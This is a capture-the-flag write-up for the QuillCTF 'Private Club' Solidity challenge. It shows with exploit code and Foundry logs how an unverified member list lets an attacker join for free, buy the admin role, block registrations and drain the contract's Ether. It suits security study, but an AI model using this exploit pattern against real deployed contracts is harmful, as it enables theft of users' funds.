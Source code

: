 # QuillCTF: Private Club Exploit

- Challenge: https://academy.quillaudits.com/challenges/quillctf-challenges/private-club  
- Contract: [PrivateClub](../../src/QuillCTF/PrivateClub.sol)  
- Exploit: [PrivateClubExploit](../../test/QuillCTF/PrivateClubExploit.t.sol)

The objective of the CTF was to become a member of the private club, to block future registrations and also to withdraw all Ether from the smart contract.

## Exploit

Anyone can become a member of the private club by triggering the `becomeMember()` function. It's even possible for an exploiter to craft a fake member list to avoid paying fees when registering by creating a fraudulent member list consisting solely of their own address. This way, the value sent with the transaction will be sent back to the exploiter. This vulnerability exists because the function does not verify the authenticity of the member list.

```java
// Become a member of the private club
address[] memory members = new address[](3);
members[0] = address(exploiter);
members[1] = address(exploiter);
members[2] = address(exploiter);
target.becomeMember{value: 3 ether}(members);
```

Once done, the exploiter only needs 10 Ether to become the new owner of the contract. With this level of ownership, the exploiter gains an excessive amount of power, enabling them to prevent others from registering and withdraw all of the funds.

```java
// Pay to become the new owner
target.buyAdminRole{value: 10 ether}(exploiter);
assertTrue(target.members(exploiter));
```

Now the exploiter can abuse their power and carry out any actions they desire.

```java
// Close the registration period: users won't be able to register anymore
target.setRegisterEndDate(block.timestamp - 1);

// Withdraw all the funds
target.adminWithdraw(exploiter, address(target).balance);
```

## PoC

The following are the logs generated by executing the exploit using Foundry:

```bash
$ make exploit CONTRACT=PrivateClub  
Running 1 test for test/QuillCTF/PrivateClubExploit.t.sol:PrivateClubExploit
[PASS] testExploit() (gas: 158544)
Logs:
  Balances: target=100 ETH exploiter=20 ETH
  Become a member of the private club
  Balances: target=100 ETH exploiter=20 ETH
  Pay to become the new owner
  Balances: target=110 ETH exploiter=10 ETH
  Close the registration period
  User 3 tries to become a member without any success
  Withdraw all the funds
  Balances: target=0 ETH exploiter=120 ETH

Test result: ok. 1 passed; 0 failed; finished in 1.31ms
```
